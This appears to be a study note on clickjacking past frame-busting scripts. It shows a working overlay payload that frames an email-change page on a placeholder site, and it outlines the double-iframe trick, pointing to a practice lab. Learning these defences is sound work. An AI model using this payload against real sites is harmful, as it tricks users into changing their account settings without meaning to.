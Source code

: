 developers commonly make the mistake of comparing only the top frame to the current frame when trying to detect whether the protected page is framed by a malicious page. If the top frame has the same origin as the framed page they allow it, code ex:
```javascript
if (top.location == self.location){
// Allow framing.
} 
else{
// Disallow framing.
}
```
## If that is the case, we use one of the following:
### 1- HTML 5 Sandbox Attribute:
```html
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

### 2-the double `iframe` trick
1. search for a location on the victim site that allows you to embed custom `iframes` like (social media sites allows users to share links on their profile, features to embed videos, audio, images, web page builders)
2. construct a page that frames the victim’s targeted functionality
3. Then place the entire page in an `iframe` hosted by the victim site
![[Pasted image 20240206094104.png]]
This way, both` top.location` and `self.location` point to `victim.com`, The frame-busting code would determine that the innermost victim.com page is framed by another victim.com page within its domain



> **Check out this [lab](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script) from PortsWigger to practice**
## Real world scenario and report

